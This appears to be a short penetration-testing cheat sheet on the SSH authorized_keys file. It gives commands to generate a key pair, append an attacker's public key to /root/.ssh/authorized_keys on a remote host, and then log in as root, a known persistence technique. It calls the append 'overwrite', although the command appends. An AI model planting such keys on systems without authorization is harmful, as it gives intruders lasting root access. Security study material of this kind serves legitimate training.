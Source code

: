 ## What ?
File in `~/.ssh/` that contains public keys allowed to SSH into an account

### How to ?
Generate `SSH` key pairs
```
ssh-keygen -t rsa -f /path/to/key -C "your_comment"
```
`-t`: Specifies the key type (e.g., rsa, ecdsa, etc.). 
`-f`: Path where the key will be saved. 
`-C`: Comment for identifying the key.
Set permissions for private key
```
chmod 600 <PRIVATE KEY>
```
Overwrite `/root/.ssh/authorized_keys` with our `PUBLIC KEY`
```
echo "ssh-rsa AAAAB3...your_public_key... root" >> /root/.ssh/authorized_keys
```
Alternative command to overwrite authorized keys
```shell
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
ROOT
```
ssh -i <PRIVATE KEY> root@<IP>
```